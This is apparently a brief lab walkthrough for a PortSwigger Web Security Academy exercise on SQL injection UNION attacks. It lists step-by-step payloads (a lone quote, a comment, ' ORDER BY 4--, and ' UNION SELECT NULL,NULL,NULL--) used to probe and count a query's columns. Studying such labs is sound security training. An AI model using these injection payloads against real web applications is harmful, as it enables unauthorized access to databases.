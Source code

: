 # SQL injection UNION attack, determining the number of columns returned by the query
https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns

Step - 1
---
```
'
```
Error > Single Quotes

Step - 2
---
```
'--
```
No MySQL

Step - 3
---
```
' ORDER BY 4--
```
Error > 3 Column

Step - 4
---
```
' UNION SELECT NULL,NULL,NULL--
```

